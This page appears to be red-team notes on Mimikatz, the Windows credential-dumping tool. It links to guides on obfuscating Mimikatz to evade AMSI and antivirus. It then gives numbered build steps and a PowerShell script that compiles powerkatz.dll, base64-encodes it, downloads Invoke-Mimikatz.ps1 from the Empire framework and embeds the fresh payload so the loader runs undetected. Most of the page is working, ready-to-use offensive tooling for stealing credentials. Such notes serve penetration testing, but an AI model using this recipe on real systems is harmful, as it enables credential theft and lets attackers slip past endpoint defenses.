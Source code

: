 # Mimikatz




## Obfuscate Mimikatz

* [https://s3cur3th1ssh1t.github.io/Bypass-AMSI-by-manual-modification-part-II/](https://s3cur3th1ssh1t.github.io/Bypass-AMSI-by-manual-modification-part-II/)
* [https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/](https://s3cur3th1ssh1t.github.io/Building-a-custom-Mimikatz-binary/)




## Invoke-Mimikatz

* [http://clymb3r.wordpress.com/2013/04/09/modifying-mimikatz-to-be-loaded-using-invoke-reflectivedllinjection-ps1/](http://clymb3r.wordpress.com/2013/04/09/modifying-mimikatz-to-be-loaded-using-invoke-reflectivedllinjection-ps1/)
* [http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/](http://www.harmj0y.net/blog/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/)

Update the [`Invoke-Mimikatz.ps1`](https://github.com/BC-SECURITY/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1) PowerShell script:

1. Grab source code zip from the latest (or anyone you want) [release](https://github.com/gentilkiwi/mimikatz/releases) of Mimikatz.
2. Open the solution in Visual Studio.
3. Select the **Second_Release_PowerShell** target option and compile for  `Win32`.
4. Right-click on `mimikatz` solution > Properties > C/C++ > Set **Treat warnings as errors** to `No (/WX-)` > OK.
5. Compile for `x64`.
6. Transform the resulting `powerkatz.dll`s to a base64 string using `base64 -w 0 powerkatz.dll` on Linux or with a PowerShell script below on Windows.
7. Replace the `$PEBytes32` and `$PEBytes64` strings at the bottom of `Invoke-Mimikatz.ps1` and you're good to go!

{% code title="Update-InvokeMimikatz.ps1" %}
```powershell
$powerkatz32 = [System.IO.File]::ReadAllBytes("C:\Users\coder\Downloads\powerkatz32.dll")
$powerkatz64 = [System.IO.File]::ReadAllBytes("C:\Users\coder\Downloads\powerkatz64.dll")
$encPowerkatz32 = [System.Convert]::ToBase64String($powerkatz32)
$encPowerkatz64 = [System.Convert]::ToBase64String($powerkatz64)
IWR https://github.com/BC-SECURITY/Empire/raw/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1 -OutFile Invoke-Mimikatz.ps1
$invokeMimikatz = gc .\Invoke-Mimikatz.ps1
$updInvokeMimikatz = $invokeMimikatz -replace '\$PEBytes32 = .*$', ('$PEBytes32 = ' + "'$encPowerkatz32'")
$updinvokeMimikatz -replace '\$PEBytes64 = .*$', ('$PEBytes64 = ' + "'$encPowerkatz64'") > Invoke-Mimikatz.ps1
```
{% endcode %}
